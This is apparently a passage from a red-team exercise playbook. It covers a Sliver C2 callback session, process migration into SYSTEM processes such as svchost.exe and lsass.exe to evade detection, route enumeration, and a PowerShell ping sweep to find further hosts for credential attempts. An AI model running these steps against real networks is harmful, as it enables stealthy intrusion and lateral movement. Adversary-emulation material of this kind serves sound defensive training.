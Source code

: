 This creates a log in the Microsoft-Windows-WMI-Activity/Operational log, event ID: 5861

========== DAY 2 ACTIONS ==========

Ping yourself to run the session agent

ping localhost -n 15

Exit the RDP session

Use the sliver session that calls back

# In the sliver-server terminal window, type the first 3 characters of the session that calls back and tab it out
use <SESSIONID>

Going down the rabbit hole

We will now migrate processes to evade detections

Ensure that you use processes that stay open for a long time. For instance, explorer.exe is a bad choice if a user is running it, because users don't often keep the file explorer open very long. Low PID number svchost.exe processes are your friend. lsass.exe is okay as well.

# Enumerate running processes 
ps
# find processes by NT AUTHORITY\SYSTEM until the 3rd process migration.
migrate -p <PID>
migrate -p <PID>

# Migrate into an administrator account if there are any
migrate -p <PID>

Discovery

Network Discovery

Show existing network routes

route print | more

We are looking for network blocks to begin scanning for hosts that are alive. Same as before

Ping Sweep the discovered netblocks

Change the below net block of 10.10.20.0/24 to be whatever the actual routes show. If there are no routes, do the same subnet that the previous nslookups gave us.

1..254 | ForEach-Object { $ip="10.10.20.$_"; if ((New-Object Net.NetworkInformation.Ping).Send($ip, 1).Status -eq "Success") { try { "$ip - $([System.Net.Dns]::GetHostEntry($ip).HostName -replace '\.$','')" } catch { "$ip -                     Hostname: Unavailable" } } }

This is a pingsweep with a hostname lookup scan. If an ip responds, we now have a target to land on to try more credentials.
